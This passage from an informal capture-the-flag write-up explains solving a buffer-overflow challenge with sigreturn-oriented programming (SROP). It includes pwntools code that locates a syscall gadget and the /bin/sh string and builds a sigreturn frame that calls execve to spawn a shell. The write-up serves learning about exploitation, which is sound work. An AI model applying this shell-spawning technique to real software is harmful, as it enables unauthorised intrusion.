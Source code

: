 ```asm
    syscall
    ret

section .data
    msg: db "As a pup, the wolf YEARNED for the /bin/sh"
    msg_len: equ $ - msg
```

so this might seem really confusing (it was to me) but the comments helped massively with helping me understand what's going on

so there's a 100 byte buffer, but a 1000 byte read into it. so buffer overflow and rop to /bin/sh, right? there's already a string so nicely for it!!

nuh uh D:

the issue here is that because it's in assembly, there aren't ANY rop gadgets outside of the assembly code that can be used, so what do we do? is there even a way?

well Yes! the title of the challenge already provides a hint; SROP.

### what is SROP?
also known as **SigReturn Oriented Programming**, it uses the linux `rt_sigreturn` syscall. what this syscall does is take a **sigreturn frame** from the stack which allows us to pop the values of all our registers to run whatever we want

this gets rid of the need for any pop rdi; ret gadgets like in the previous challenge

the requirements this needs is for us to work is:
* 300~ bytes of input (yep we have 1000)
* `syscall` gadget (yep! read is a syscall)
* set the `rax` register to 15 / `0xf`  → this is important later, there's currently no way ... or is there?

fortunately for us, this binary does NOT have PIE so we can use `objdump -t` to get all the addresses we need, which are:
1. syscall
2. /bin/sh string

we can find this via pwntools elf as well, like this:
```python
elf = ELF('./vuln')
rop = ROP(elf)
SYSCALL = rop.find_gadget(["syscall"])[0]
BINSH = next(elf.search(b"/bin/sh"))
```

what i'm learning from this is that pwntools has basically everything :sob:, because it also has a class for us to construct a sigreturn frame like so:
```python
frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve()
frame.rdi = BINSH           # pointer to "/bin/sh"
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL         # `syscall` gadget
```
